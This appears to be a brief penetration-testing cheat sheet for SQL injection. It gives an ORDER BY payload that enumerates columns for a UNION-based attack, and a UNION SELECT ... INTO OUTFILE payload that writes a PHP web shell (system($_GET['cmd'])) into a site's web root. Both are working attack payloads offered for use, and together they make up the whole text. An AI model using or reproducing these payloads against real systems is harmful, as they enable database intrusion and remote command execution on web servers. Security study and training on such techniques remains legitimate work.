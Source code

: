 Enumerate no. of columns for UNION-based payload:
`' ORDER BY <Column no. to test>-- //`

Inject webshell into PHP site via UNION:
`' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //`

